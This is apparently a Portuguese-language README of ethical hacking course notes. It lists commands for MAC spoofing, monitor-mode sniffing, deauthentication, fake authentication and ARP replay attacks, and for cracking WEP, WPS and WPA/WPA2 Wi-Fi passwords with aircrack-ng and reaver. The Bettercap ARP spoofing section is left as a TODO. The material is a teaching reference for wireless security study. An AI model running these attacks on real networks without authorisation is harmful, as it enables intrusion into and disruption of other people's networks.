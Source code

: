 
# [Ethical Hacking](https://www.udemy.com/course/learn-ethical-hacking-from-scratch)

# Requirements

Aircrack-ng e Reaver
```
sudo apt install net-tools aircrack-ng reaver 
```

Bettercap
```
# Instalando Go
apt install golang

# Instalando dependencias bettercap 
sudo apt install build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev 

#Instalando Bettercap
go get github.com/bettercap/bettercap
cd $GOPATH/src/github.com/bettercap/bettercap
make build
sudo make install
```


## Sumário

- [Change MAC](#change-mac)
- [Get MAC](#get-mac)
- [Monitor Mode](#monitor-mode)
- [Sniffing com Airodump-ng](#sniffing-com-airodump-ng)
- Attacks
    - [Deauthentication Attack](#deauthentication-attack)
    - [Fake Authentication Attack](#fake-authentication-attack)
    - [ARP Request Replay Attack](#arp-request-replay-attack)
- Wi-Fi
    - [WEP cracking](#wi-fi-wep-cracking)
    - [WPS cracking](#wi-fi-wps-cracking)
    - [WPA/WPA2 cracking](#wi-fi-wpawpa2-cracking)
- [Bettercap](#arp-spoofing)
#

## Change MAC 

```
ifconfig wlan1 down
ifconfig wlan1 hw ether A0:B1:C2:D3:E4:F5
ifconfig wlan1 up
```

## Get MAC

```
ifconfig -a wlan1 | grep ether
```

#

## Monitor Mode

```
ifconfig wlan1 down
iwconfig wlan1 mode monitor
ifconfig wlan1 up
```
#

## Sniffing com Airodump-ng

Utilizado para sniffar redes wi-fis

|||
|-|-|
|BSSID|mac|
|PWR|força do sinal|
|Beacons|broadcast existencia da rede|
|#Data|total de dados trafegados|
|#/s|total de dados trafegados por segundo|
|CH|canal da rede|
|MB|velocidade máxima suportada|
|ENC|encriptação da rede|
|CIPHER|cifra da rede|
|AUTH|autenticação utilizada|
|ESSID|nome da rede|
|STATION|cliente conectado na rede|


### Todas as Redes
```
airodump-ng wlan1
```

### Rede espefífica
```
airodump-ng --channel [canal] --bssid [mac] wlan1
```

### Salvar dados
```
airodump-ng --channel [canal] --bssid [mac] --write [output file] wlan1
```

#

## Deauthentication Attack

Desautentica um cliente de uma dada rede, sem precisar estar conectado na mesma

1. [Listar Wi-Fis e escolher alvo](#todas-as-redes)

2. [Sniffar o Wi-Fi alvo](#rede-espefífica). Deixe este terminal aberto

3. Executar ataque
    ```
    aireplay-ng --deauth 10000000 -a [bssid wi-fi] -c [mac client] wlan1
    ```
#

## Fake Authentication Attack

Se associa a um Wi-Fi, enviando pacotes de autenticação falsos, para aumentar o número de pacotes tráfegados. Utilizado em ataque como [WEP cracking](#wep-cracking).

1. [Listar Wi-Fis e escolher alvo](#todas-as-redes)

2. [Sniffar o Wi-Fi alvo e salvar dados de leitura](#salvar-dados). Deixe este terminal aberto

3. Abra outro terminal e execute o ataque
    -  **num attempts**: número de vezes que o ataque será executado
    - **mac wifi adapter**: mac da interface em modo monitor
    ```
    aireplay-ng --fakeauth [num attempts] -a [bssid wi-fi] -h [mac wifi adapter] wlan1
    ```

#

## ARP Request Replay Attack 

Gera vários pacotes de ARP Request, utilizados para associar um IP a um dado MAC. Utilizado em ataques como [Wi-Fi WEP cracking](#wi-fi-wep-cracking), para forçar a criação de novos IVs. 

1. Associe-se ao wifi alvo, por meio do [Fake Auth Attack](#fake-authentication-attack)

3. Abra outro terminal e execute o ataque 
    - **mac wifi adapter**: mac da interface em modo monitor
    ```
    aireplay-ng --arpreplay -b [bssid wi-fi] -h [mac wifi adapter] wlan1
    ```

#

## Wi-Fi WEP cracking

Utiliza os IVs trafegados nos pacotes da rede Wi-Fi, para tentar descobrir sua senha. 

1. [Listar Wi-Fis e escolher alvo](#todas-as-redes)

2. [Sniffar o Wi-Fi alvo e salvar dados de leitura](#salvar-dados). Deixe este terminal aberto.

3. **[Situacional]** Se o número de pacotes trafegados for baixo, execute o [ARP Request Replay Attack](#arp-request-replay-attack) antes do comando abaixo

3. Abra outro terminal e execute o ataque. O  sniffing_file.cap é a captura gerada no passo 2 ou 3
    ```
    aircrack-ng sniffing_file.cap
    ```
#

## Wi-Fi WPS cracking

1. Verificar se alvo tem wps habilitado
    ```
    wash --interface wlan1
    ```

2. Executar Fake Auth com multiplas tentativas
    ```
    aireplay-ng --fakeauth 100 -a [bssid wi-fi] -h [mac wifi adapter] wlan1
    ```
3. Abra outro Terminal e execute o ataque
    ```
    reaver -vvv --no-associate --bssid [bssid wi-fi] --channel [channel wi-fi] --interface wlan1
    ```
#

## Wi-Fi WPA/WPA2 cracking

Captura o Handshake de um client com o Wi-Fi e exploita essa informação para tentar quebrar a senha a partir de uma lista de senhas (Método força bruta).

1. [Listar Wi-Fis e escolher alvo](#todas-as-redes)

2. [Sniffar o Wi-Fi alvo e salvar dados de leitura](#salvar-dados). Deixe este terminal aberto.

3. Num novo terminal, desautentique um client deste wi-fi, forçando-o a criar um novo handshake
    ```
    aireplay-ng --deauth 4 -a [bssid wi-fi] -c [mac client] wlan1
    ```
4. Interromper sniffing do passo 2 quando o handshake for capturado

5. Executar ataque 
    > [senhas rockyou.txt](https://www.scrapmaker.com/data/wordlists/dictionaries/rockyou.txt)

    > wordlist.txt é a lista de senhas

    ```
    aircrack-ng sniffing_file.cap -w wordlist.txt
    ```

#

# Bettercap

## ARP Spoofing

TODO





